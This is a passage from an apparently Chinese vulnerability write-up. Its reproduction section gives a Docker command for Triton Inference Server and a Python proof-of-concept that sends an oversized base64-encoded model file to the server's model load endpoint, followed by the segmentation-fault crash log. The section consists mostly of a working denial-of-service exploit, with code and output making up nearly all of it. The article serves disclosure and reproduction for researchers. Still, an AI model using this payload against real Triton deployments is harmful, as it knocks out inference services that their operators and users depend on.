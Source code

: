   
**（二）复现**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8WFHRW8Evk0zcqAPJSmSRktqm69UXCNGtz8L1sz1g1Wg3sEYViamG90Q/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
- 运行命令：  
docker run --rm -p8000:8000 -p8001:8001 -p8002:8002 -vmodel_repository:/models nvcr.io/nvidia/tritonserver:24.10-py3 tritonserver --model-repository=/models --model-control-mode=explicit --load-model='*' --log-verbose 1  
  
- 运行以下脚本：  
  
```
import requestsimport jsonimport base64def generate_evil_data():      original_data_length = 2147483648 * 3 // 4      random_data = b"A"*original_data_length      encoded_data = base64.b64encode(random_data)      encoded_length = len(encoded_data)      print("Base64 encoded data length: {}".format(encoded_length))      assert encoded_length == 2147483648, "Encoded data length does not match the required length."      return encoded_datadef post_payload(targe_url,data):      url = f"http://{targe_url}/v2/repository/models/hacker/load"      headers = {"Content-Type": "application/json"}      # Model configuration      model_config = {          "name": "hacker",          "backend": "onnxruntime",          "inputs": [              {                  "name": "INPUT0",                  "datatype": "FP32",                  "shape": [1]              }          ],          "outputs": [              {                  "name": "OUTPUT0",                  "data_type": "TYPE_INT32",                  "dims": [ 16 ],              }          ]      }      encoded_model_content = data      # Prepare the payload      payload = {          "parameters": {              "config": json.dumps(model_config),  # Convert model config to JSON string              "file:1/model.onnx": encoded_model_content  # Insert the encoded model file          }      }      # Send POST request      requests.post(url, headers=headers, json=payload)if __name__=="__main__":      payload = generate_evil_data()      post_payload("localhost:8000",payload)
```  
  
- Triton 服务器输出崩溃日志：  
  
```
  I1012 02:17:30.658054 1 infer_handler.h:1391] "Thread started for ModelStreamInferHandler"  I1012 02:17:30.658094 1 grpc_server.cc:2558] "Started GRPCInferenceService at 0.0.0.0:8001"  I1012 02:17:30.658522 1 http_server.cc:4704] "Started HTTPService at 0.0.0.0:8000"  I1012 02:17:30.706378 1 http_server.cc:362] "Started Metrics Service at 0.0.0.0:8002"  I1012 02:18:26.729035 1 http_server.cc:4590] "HTTP request: 2 /v2/repository/models/hacker/load"  Signal (11) received.   0# 0x00005608852D852D in tritonserver   1# 0x00007FF904109520 in /lib/x86_64-linux-gnu/libc.so.6   2# base64_decode_block in /lib/x86_64-linux-gnu/libb64.so.0d   3# 0x0000560885441723 in tritonserver   4# 0x000056088544577E in tritonserver   5# 0x0000560885AE5BB5 in tritonserver   6# 0x0000560885AEA415 in tritonserver   7# 0x0000560885AE87CE in tritonserver   8# 0x0000560885AF7830 in tritonserver   9# 0x0000560885B00160 in tritonserver  10# 0x0000560885B00BD7 in tritonserver  11# 0x0000560885AEC7A2 in tritonserver  12# 0x00007FF90415BAC3 in /lib/x86_64-linux-gnu/libc.so.6  13# clone in /lib/x86_64-linux-gnu/libc.so.6
```  
  
  
  
**（三）视频链接**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8WFHRW8Evk0zcqAPJSmSRktqm69UXCNGtz8L1sz1g1Wg3sEYViamG90Q/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  